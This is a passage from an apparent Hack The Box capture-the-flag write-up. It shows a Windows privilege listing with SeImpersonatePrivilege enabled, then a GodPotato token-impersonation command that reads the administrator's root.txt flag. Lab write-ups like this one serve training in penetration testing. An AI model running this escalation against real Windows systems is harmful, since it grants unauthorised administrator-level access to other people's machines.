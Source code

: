 ```powershell
C:\xampp\mysql\data>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Very interesting is the *SeImpersonatePrivilege* and while searching I found an article [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) which deals with an attack called [GodPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) and provides a repository where the exe that automates the attack.

By executing the following command we will have the flag:

`GodPotato.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"`

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/588">
        <img src="images/Pwned.png" width="600">
    </a>
</p>